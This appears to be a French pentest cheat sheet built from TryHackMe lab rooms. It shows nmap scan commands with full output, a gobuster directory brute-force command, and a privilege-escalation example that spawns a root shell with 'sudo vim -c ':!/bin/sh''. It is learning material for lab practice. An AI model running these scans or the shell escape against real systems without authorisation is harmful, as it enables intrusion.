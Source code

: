 # Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils

### NMAP

Suffixes : 
* -sV : affiche la version
* -sC : affiche les scripts par défaut qui sont activés

Scan simple et rapide : 
* sudo nmap -sS -T5 <ip>

Exemples : 
* N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    $ sudo nmap -sS -Pn -sV 10.10.188.70
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:24 CEST
    Nmap scan report for 10.10.188.70
    Host is up (0.13s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE       VERSION
    135/tcp   open  msrpc         Microsoft Windows RPC
    139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
    3389/tcp  open  ms-wbt-server Microsoft Terminal Service
    5357/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
    8000/tcp  open  http          Icecast streaming media server
    49152/tcp open  msrpc         Microsoft Windows RPC
    49153/tcp open  msrpc         Microsoft Windows RPC
    49154/tcp open  msrpc         Microsoft Windows RPC
    49158/tcp open  msrpc         Microsoft Windows RPC
    49159/tcp open  msrpc         Microsoft Windows RPC
    49161/tcp open  msrpc         Microsoft Windows RPC
    Service Info: Host: DARK-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 96.35 seconds

* N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    $ sudo nmap -sS -sC 10.10.188.70
    Starting Nmap 7.80 ( https://nmap.org ) at 2021-09-24 17:29 CEST
    Nmap scan report for 10.10.188.70
    Host is up (0.16s latency).
    Not shown: 988 closed ports
    PORT      STATE SERVICE
    135/tcp   open  msrpc
    139/tcp   open  netbios-ssn
    445/tcp   open  microsoft-ds
    3389/tcp  open  ms-wbt-server
    5357/tcp  open  wsdapi
    8000/tcp  open  http-alt
    |_http-title: Site doesn't have a title (text/html).
    49152/tcp open  unknown
    49153/tcp open  unknown
    49154/tcp open  unknown
    49158/tcp open  unknown
    49159/tcp open  unknown
    49161/tcp open  unknown

    Host script results:
    |_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
    |_nbstat: NetBIOS name: DARK-PC, NetBIOS user: <unknown>, NetBIOS MAC: 02:e6:92:75:0f:81 (unknown)
    | smb-os-discovery: 
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: Dark-PC
    |   NetBIOS computer name: DARK-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-09-24T10:29:37-05:00
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode: 
    |   2.02: 
    |_    Message signing enabled but not required
    | smb2-time: 
    |   date: 2021-09-24T15:29:36
    |_  start_date: 2021-09-24T15:18:11

    Nmap done: 1 IP address (1 host up) scanned in 138.91 seconds

### Gobuster

[gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```
Exemple :
```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```


## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>$ sudo -l
    <br/>User mitch may run the following commands on Machine:
    <br/>(root) NOPASSWD: /usr/bin/vim

    <br/>$ sudo vim -c ':!/bin/sh'
    <br/># ^[[2;2R^[]11;rgb:3030/0a0a/2424^G
    <br/>/bin/sh: 1: ot found
    <br/>/bin/sh: 1: 2R: not found
    <br/># whoami
    <br/>root



